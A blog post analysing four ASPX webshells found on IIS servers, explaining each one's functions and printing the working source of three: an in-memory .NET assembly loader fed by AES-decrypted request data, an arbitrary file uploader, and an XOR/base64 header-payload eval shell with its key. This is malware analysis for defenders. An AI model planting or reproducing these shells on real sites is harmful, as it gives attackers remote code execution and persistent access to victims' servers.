 
---
layout: post
title:  "ASPX Webshells analysis"
---

The analyzed webshells consist of the following: 

# App.asbx

- Page_Load function: return environment variable "APP_POOL_ID" value when page is loaded and the "
- APP_POOL_ID : The name of the application pool that is running the IIS worker process handling the request
- Execute function: Creates a new cmd process "cmd.exe /c time /T" to get the current time
- Query function: Execute SQL query and return output
- Upload: Create File with data in temp folder and return path to file
- Fix: change file creation, last access, and last write time.

# IP.aspx

```c
*byte[] c=Request.BinaryRead(Request.ContentLength);*

*string asname=System.Text.Encoding.ASCII.GetString(new byte[] {0x53,0x79,0x73,0x74,0x65,0x6d,0x2e,0x52,0x65,0x66,0x6c,0x65,0x63,0x74,0x69,0x6f,0x6e,0x2e,0x41,0x73,0x73,0x65,0x6d,0x62,0x6c,0x79});//System.Reflection.Assembly*

*Type assembly=Type.GetType(asname);*

*MethodInfo load = assembly.GetMethod("Load",new Type[] {new byte[0].GetType()});*

*object obj=load.Invoke(null, new object[]{Decrypt(c)});*

*MethodInfo create = assembly.GetMethod("CreateInstance",new Type[] { "".GetType()});*

*string name = System.Text.Encoding.ASCII.GetString(new byte[] { 0x55 }); //U*

*object pay=create.Invoke(obj,new object[] { name });*

*pay.Equals(this);*
```

When the request is received, the binary in the request is read to memory, then it is decrypted with AES ECB algorithm, and the Load method of *System.Reflection.Assembly* is called to load the .NET binary in memory. After loading the binary, the *CreateInstance* method is called to get the binary instance, and finally, the “Equals” method is called from the binary.

# SC.aspx

```c
String filePath = String.IsNullOrEmpty(Request["filePath"])?Request.ServerVariables["APPL_PHYSICAL_PATH"]:Request["filePath"];

if(Request.Files.AllKeys.Length > 0){

foreach (string fileString in Request.Files.AllKeys){

HttpPostedFile file = Request.Files[fileString];

file.SaveAs(filePath + file.FileName);

Response.Write(filePath + file.FileName);

}

}else{

Response.Write(string.Format("<form action='' method='post' enctype='multipart/form-data'><input name='filePath' type='text' value='{0}' /><input name='file' type='file' /><input type='submit' value='submit'></form>",filePath));

}

%>
```

The websshell reads a list of file from the request and writ them to the machine in a specific path.

# MSCV.aspx

```c
*function xor(str)*

*{*

*var key = "cc17c30cd111c7215fc8f51f8790e0e1";*

*var ins = [];*

*for(var x=0;x<str.length;x++)*

*{*

*ins[x] = str[x] ^ key[x%32];*

*}*

*return ins;*

*}*

*function tt(str)*

*{*

*var c = str.ToCharArray();*

*var l = str.length;*

*var r = "";*

*for (var i = 0; i < l ; i++)*

*{*

*r = r + c[l - i - 1];*

*}*

*var eee = xor(System.Convert.FromBase64String(r));*

*return eee;*

*}*

*function un(str,rrr)*

*{*

*return "" + eval(System.Text.Encoding.GetEncoding("UTF-8").GetString(tt(Request.Item["ceshi"].substr(22))),str+rrr);*

*}*

*un('uns',"afe");*

*%>*
```

The payload is in in the header item “ceshi”. The payload starts at offset 22, it is read and passed to the “tt” function. The string is first reversed, then it is decoded using base64, and finally the xor function is called to decrypt the bytes and get the command to run in eval function to execute the command.